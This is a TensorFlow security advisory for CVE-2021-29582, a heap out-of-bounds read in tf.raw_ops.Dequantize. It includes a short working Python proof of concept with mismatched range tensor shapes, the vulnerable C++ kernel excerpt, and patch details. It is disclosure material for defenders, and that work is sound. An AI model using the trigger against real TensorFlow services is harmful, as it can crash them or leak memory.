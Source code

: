 ## TFSA-2021-070: Heap OOB read in `tf.raw_ops.Dequantize`

### CVE Number
CVE-2021-29582

### Impact
Due to lack of validation in `tf.raw_ops.Dequantize`, an attacker can
trigger a read from outside of bounds of heap allocated data:

```python
import tensorflow as tf

input_tensor=tf.constant(
  [75, 75, 75, 75, -6, -9, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10,\
  -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10,\
  -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10,\
  -10, -10, -10, -10], shape=[5, 10], dtype=tf.int32)
input_tensor=tf.cast(input_tensor, dtype=tf.quint8)
min_range = tf.constant([-10], shape=[1], dtype=tf.float32)
max_range = tf.constant([24, 758, 758, 758, 758], shape=[5], dtype=tf.float32)

tf.raw_ops.Dequantize(
  input=input_tensor, min_range=min_range, max_range=max_range, mode='SCALED',
  narrow_range=True, axis=0, dtype=tf.dtypes.float32)
```

The
[implementation](https://github.com/galeone/tensorflow/blob/26003593aa94b1742f34dc22ce88a1e17776a67d/tensorflow/core/kernels/dequantize_op.cc#L106-L131)
accesses the `min_range` and `max_range` tensors in parallel but fails to check
that they have the same shape:

```cc
if (num_slices == 1) {
  const float min_range = input_min_tensor.flat<float>()(0);
  const float max_range = input_max_tensor.flat<float>()(0);
  DequantizeTensor(ctx, input, min_range, max_range, &float_output);
} else {
  ...
  auto min_ranges = input_min_tensor.vec<float>();
  auto max_ranges = input_max_tensor.vec<float>();
  for (int i = 0; i < num_slices; ++i) {
    DequantizeSlice(ctx->eigen_device<Device>(), ctx,
                    input_tensor.template chip<1>(i), min_ranges(i),
                    max_ranges(i), output_tensor.template chip<1>(i));
    ...
  }
}
```

### Patches
We have patched the issue in GitHub commit
[5899741d0421391ca878da47907b1452f06aaf1b](https://github.com/galeone/tensorflow/commit/5899741d0421391ca878da47907b1452f06aaf1b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
